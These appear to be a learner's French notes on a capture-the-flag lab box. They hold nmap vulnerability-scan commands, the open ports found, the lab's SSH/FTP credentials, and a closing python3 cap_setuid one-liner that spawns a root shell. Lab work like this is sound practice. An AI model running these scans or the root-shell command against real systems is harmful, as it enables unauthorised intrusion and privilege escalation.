 #ip 10.10.10.245

faille cap_suid

#connection vpn avant chaque box :
-openvpn souley175.ovpn

#lien tuto nmap :
https://oksecu.home.blog/2019/07/11/detecter-facilement-les-cve-avec-les-scripts-nmap/


#mettre / a la fin 
-sudo nmap --script nmap-vulners/ -sV -p 25,110,119,143,465,563,587,993,995 10.10.10.245

-sudo nmap --script nmap-vulners/,vulscan/ -sV -p 25,110,119,143,465,563,587,993,995 10.10.10.245  

nmap macosta :
-sudo nmap --script vuln -sV -p 139,445,3389 -oA nmap/vuln $IP -P

-sudo nmap --script vuln -sV -p 21,22,80,25,110,119,143,465,563,587,993,995 10.10.10.245

lien port ouver a tester :
https://book.hacktricks.xyz/pentesting/pentesting-smtp

liste port ouvet : 
25/tcp  open  smtp
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

lien root :
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

pass ftp : Buck3tH4TF0RM3!

connexion ssh :

ssh nathan@10.10.10.245 

pass ssh : Buck3tH4TF0RM3!

# problèmes de permissions avec gunicorn et les threads. solution de fortune pour le moment.
#os.setuid(0)
#command = f "timeout 5 tcpdump -w {path} -i any host {ip}"

cap ctf lien :
https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

shell root :
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'